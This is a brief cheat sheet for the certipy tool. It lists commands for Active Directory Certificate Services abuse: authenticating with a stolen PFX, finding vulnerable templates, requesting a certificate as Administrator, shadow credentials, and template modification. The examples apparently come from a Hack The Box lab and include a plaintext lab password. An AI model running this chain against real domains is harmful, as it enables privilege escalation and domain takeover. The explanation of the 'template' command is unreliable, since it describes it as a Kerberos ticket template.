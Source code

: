 # certipy

## Overview

## Usage

### Auth

Example: certipy-ad auth -pfx ./administrator.pfx -dc-ip 10.129.251.172

### Find

The find command is useful for enumerating AD CS certificate templates, certificate authorities and other configurations. The find operation searches for vulnerabilities such as missing or misconfigured certificates, insecure settings, or issues with Kerberos encryption types.

    -scheme <scheme>: This specifies which scheme should be used to communicate with the target Domain Controller.
    -k: The -k flag indicates that Kerberos authentication should be used for the request. Certipy will attempt to authenticate with the Kerberos tickets that are either provided or found in the Kerberos ticket cache
    -debug: The -debug flag enables debugging output.
    -target <target_name>.<domain_name>: DNS name of the target
    -dc <ip>: Domain Controller ip.
    -vulnerable: This flag tells Certipy to look for vulnerabilities related to Kerberos and Active Directory certificate configurations.
    -stdout: The -stdout flag indicates that Certipy should print its results to standard output, rather than saving them to a file.

```
KRB5CCNAME=$PWD/<victim_username_with_TGT>.ccache certipy-ad find -scheme <scheme> -k -debug -target <target_dns_name> -dc-ip <domain_controller_ip> -vulnerable -stdout
```

Example: KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.129.251.172 -vulnerable -stdout

### Req

Example: certipy-ad req -u ca_svc -hashes :{ca_svc_hash} -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns {ip} -dns {ip}

Might need to be run multiple times to work

### Shadow Credentials

```
certipy-ad shadow auto -u <username>@<domain_name> -p '<password>' -dc-ip <domain_controller_ip> -ns <dns_server_ip> -target <domain_controller_name>.<domain_name> -account <username_victim>
```

Example : certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc

### Template

This specifies the Kerberos template to use when requesting a Kerberos ticket. This template is used when performing actions like generating tickets or performing Kerberos-based attacks (like Pass-the-Ticket (PTT) or Golden Ticket).

Example: KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172
